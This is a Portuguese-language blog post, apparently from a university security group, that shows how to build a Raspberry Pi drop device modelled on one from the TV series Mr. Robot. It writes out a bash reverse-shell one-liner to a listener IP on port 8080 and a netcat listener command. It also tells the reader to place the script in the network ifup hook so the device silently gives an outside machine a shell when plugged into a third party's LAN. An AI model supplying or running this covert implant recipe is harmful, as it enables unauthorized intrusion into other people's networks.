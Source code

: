```yaml
---
layout: post
title: Mr robot's raspberry Pi
description: "Como criar um raspberry Pi semelhante ao utilizado por Elliot na primeira temporada de Mr Robot"
tags: [Mr\_robot, raspberry, hack, reverse\_shell]
categories: [raspberry, hack]
author: lgribeiro
published: true
---
```


Algum tempo atrás estava dando uma olhada nos posts da série Mr Robot do [null-byte](http://null-byte.wonderhowto.com/how-to/mr-robot-hacks/) e um artigo em especial me chamou a atenção.

A publicação sobre como criar um raspberry para hacking não é exetamente igual as condições encontradas por Elliot na série no episódio eps1.3\_\_da3m0ns.mp4. Portanto, optei por adaptar um pouco esse tutorial para que ele se torne mais fiel ao conteúdo apresentado na televisão. De início, os passos serão bem semelhantes aos apresentados pelo null-byte.

1. Baixar o [Kali linux para arm](https://www.offensive-security.com/kali-linux-arm-images/). Escolha aquela que mais se adequa ao hardware que estiver sendo utilizado. Iremos utilizar o Kali pois é uma distribuição linux focada em segurança, e por conta disso, fornecerá diversas ferramentas que poderão ser utilizadas em missões futuras.

![offensive security]({{ site.url }}/images/offensive-sec.png)

2. Feito isso, precisamos criar um script que funcionará como nosso nosso shell reverso. Para tal, é recomendável utilizar o [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) da pentest Monkey.

{% highlight %}
{% raw %}
bash -i >& /dev/tcp/\<ip da maquina que está escutando\>/8080 0>&1
{% endraw %}
{% endhighlight %}

Colocamos então o código acima em um arquivo (chamaremos ele de reverse) e concedemos a ele permissão de execução da seguinte maneira:

{% highlight %}
{% raw %}
chmod +x reverse
{% endraw %}
{% endhighlight %}

Obs: Vale ressaltar que não devemos colocar o script com extensão .sh pois o diretório em que ele será armazenado não executa arquivos com esse formato.

3. Agora, é necessário preparar uma máquina capaz de receber essa shell fornecida pelo raspberry. Para isso, podemos utilizar o canivete suiço de conexões TCP, o netcat. Basta colocar o netcat para escutar na porta em que a shell será fornecida da seguinte forma:

{% highlight bash %}
{% raw %}
 nc -lvp 8080
{% endraw %}
{% endhighlight %}

4. Com a estrutura pronta, precisamos organizar tudo o que temos para que seja possível acessar o raspberry dentro de uma LAN de terceiros. A partir desse ponto que nos desviamos um pouco do artigo que utilizamos como base.
No lugar de utilizar teclado, tela e demais periféricos, colocaremos nosso script no diretório /etc/network/interfaces/ifup. Dessa forma, assim que a interface do nosso dispositivo começar a funcionar ele executará o script, que fornecerá a shell para a máquina de fora da LAN.

![elliot wins]({{ site.url }}/images/mr-robot-success.1280x600.jpg)

Ressalvas:

* Para testar, utilize duas máquinas na mesma LAN, ou a máquina que escuta deverá ter um IP real ou ter um portfoward settado no roteador para que as conexões recebidas em detarmidana porta sejam redirecionadas para a máquina que está escutando.

Quaisquer dúvidas, entre em contato via email: lgribeiro at gris.dcc.ufrj.br

